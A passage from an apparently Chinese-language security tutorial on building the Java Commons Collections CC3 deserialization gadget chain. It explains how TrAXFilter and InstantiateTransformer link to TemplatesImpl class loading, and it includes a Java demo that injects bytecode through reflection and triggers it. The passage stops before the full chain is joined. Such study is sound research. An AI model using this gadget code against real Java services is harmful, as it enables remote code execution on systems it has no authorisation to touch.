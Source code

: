 ‍

上述其实是去找谁去调用了`newTransformer()`​导致可以连接上动态类加载的`TemplatesImpl`​链，所以想到了`InvokerTransformer`​当中的类似反射的代码来完成调用但是如果`InvokerTransformer`​被ban了，才到真正的CC3 ，因为是绕过了`InvokerTransformer`​的限制，采用了另一条链子

‍

作者继续往上跟看谁调用了`newTransformer()`​，于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.java`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-82e73e764a8613a44b8b5038b42409c5080a1b90.png)​

`TrAXFilter`​这个类是直接传入Templates类后调用的构造方法就调用了`newTransformer()`​方法，也就是说只要找到一个地方可以调用`TrAXFilter`​他的构造方法 ，就可以成功连接上动态类加载的后半条链子了

‍

于是作者找到了`\commons-collections-3.2.1.jar!\org\apache\commons\collections\functors\InstantiateTransformer.java`​

看一下他的`transform`​方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-23ca8053498635323d1929e1bfb9d8af64ba2b9b.png)​

那么我们就可以根据其构造方法去构造，然后通过之前的办法去调用其`transform`​即可全部连接起来

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a54769b195c461c3bf7a478442c695e8427d59b3.png)​

‍

写出以下demo

```java
        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field _tfField = tc.getDeclaredField("_tfactory");
        _tfField.setAccessible(true);
        _tfField.set(templates, new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
```

这样其实就可以调用`TrAXFilter`​的构造方法了，那么现在就是去整条链子串起来即可
